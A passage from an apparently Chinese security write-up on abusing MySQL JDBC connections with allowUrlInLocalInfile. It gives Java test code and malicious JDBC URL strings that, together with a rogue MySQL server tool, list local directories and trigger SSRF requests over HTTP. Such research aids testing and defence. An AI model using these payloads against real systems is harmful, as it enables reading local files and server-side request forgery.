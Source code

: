 **条件**

- JDBC连接可控
- 开启`allowUrlInLocalInfile`, 默认关闭

**作用**

能够使用URL类支持的所有协议，进行SSRF获取file协议读取本地文件

既然能够ssrf的话，那就可以列文件目录了

### 实现

修改工具的config.json

![image-20221202210925153](images/3.png)

在fileread这里多加一行

测试代码

```
package JDBCAttack;

import java.sql.Connection;
import java.sql.DriverManager;

public class test {
    public static void main(String[] args) throws Exception{
        String url = "jdbc:mysql://127.0.0.1:2333/test?user=ls&allowUrlInLocalInfile=true";
        Connection conn = DriverManager.getConnection(url);
        conn.close();
    }
}
```

![image-20221202211021413](images/4.png)

读到了根目录，如果这个配置没有开启的话，就是如下情况

![image-20221202211103729](images/5.png)

既然是SSRF，那就可以通过http去访问对应网页

```
String url = "jdbc:mysql://127.0.0.1:2333/test?user=fileread_http://127.0.0.1:8888/&allowUrlInLocalInfile=true"
```

![image-20221202211508662](images/6.png)

收到了对应的请求

有时候还会看到一个MaxAllowedPacket

![image-20221202213255543](images/7.png)

